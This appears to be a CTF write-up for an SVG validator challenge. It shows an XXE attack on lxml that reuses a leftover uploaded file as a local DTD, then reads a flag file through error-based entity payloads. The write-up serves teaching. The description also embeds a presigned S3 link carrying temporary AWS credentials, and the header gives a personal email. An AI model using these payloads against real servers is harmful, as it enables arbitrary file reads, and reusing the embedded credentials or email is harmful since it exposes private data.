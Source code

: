 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466SVVD4SPM%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044354Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJIMEYCIQD42G0gjqahrI0LGMURDLtcozBRj0Zi1z5RtCC3jz7rEgIhAOkjZn6BWWPx0ammVz1ig%2F1veeAwbMUgwe6ogbBnZAiKKogECP3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1Igyc9DU2HO8S5xJs%2FoQq3AMDW%2F4WdAmw74JUGPm7J6mQ3o9EoSm0DxpgNG7ShIGkLITvbxrMB2vQ1aBsEKKjkuLJJgKTkZAo9Z7%2F%2BFG3%2B%2Bnyl1YdxAT2ABJCF%2B8KIXKL3%2BeAy1dCwDHLBi1suFD9yfyCVtxsFgRXfk82YVXL6k7uabWywDSLZ3AK0mByFV5ahuq7yuFNuXsATpGfKBSOiLJBUHqoTO05u%2F%2BnY3tPL3aa4otkRCO33xt1DUPv6wVo5MrOnliUjMrOxbuG2X324KgWzl8Alz9pFD5S%2B%2Fk09HHm1XVSh2WjhSMLitbcDCOM78yFNhocO67fYnLU0SypBu3uHHG6Mnzoh5AQN7KH5ouQ4OIYBzY5rZ6e%2B2dCCuMzv8k%2BPJloM7%2FeN3W3xiVaKy8klO%2Ba%2BSxouCiZb5KAlMTGhBEeOZ096Z%2BWLml4t5llgF8Nf%2FIsX5Bs8ybwVmvZ7dTCi7%2F8IJ%2FapyFthlPSnKGkM5AIj5dIDGlLLg5HOilB6PKNC%2FfrjjG%2BE3cpz2xIuJ6VpjnyI3Otz454xqm7Vj3TjSWKhji0k0AFryV8zFjAaHo2WDryT0yZQRcwXUK6VYucTMEFTOB1ZVHr9zHw5Esb6PhFcd88SRu5WmB6zx%2F5zCpN9cezm5FHL7Y29jDaksXBBjqkAXLdx6p4te7q4VIUBQV2UOXdDTBkGGdWlLtm9wys8kvAZ5PU%2B3PUk8e9VAuz%2FF%2Fp6O%2FnzGMjsvJr%2BNX5T%2BNVTfYVIPWL5yFQJR%2BB1JLzkEymCeU6J0MEafhsdlsWPAkVN7ppz2pET3quRGnKt8YZXPTuzb7NHqcUZs4YFgsjqHfDb1Er0GL6MftdWAoUo2Z8CeHnCJpShaSMDp%2BDgy609r6xWaY7\&X-Amz-Signature=ea3bdca407ff359f6f5a66ef4eac3482c568c469a6c93a580fbf42c715859d33\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
